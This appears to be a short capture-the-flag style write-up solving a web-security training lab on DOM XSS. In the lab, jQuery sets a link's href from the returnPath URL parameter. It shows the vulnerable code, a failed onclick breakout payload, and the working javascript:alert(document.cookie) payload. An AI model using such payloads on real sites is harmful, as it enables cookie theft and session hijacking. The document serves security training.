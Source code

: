 # Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

 >This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

>To solve this lab, make the "back" link alert document.cookie. 

Vulnerable area: Submit feedback page

Found this jQuery code on the page:


`$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});`

Based on the code, we can modify where the `back` link takes the user by modifying the `returnPath` url parameter

I tried many variations of escaping the href attribute and injecting some onclick js, but it didn't work... Example:

`https://ace81f591f9bbb03c0e51e9b00900066.web-security-academy.net/feedback?returnPath=%22%20onclick=%22alert(document.cookie)`

Result of above:
`<a id="backLink" href=""; onclick="alert(document.cookie)">Back</a>`

### Solution
Solved lab with the following payload:

`https://ace81f591f9bbb03c0e51e9b00900066.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)`


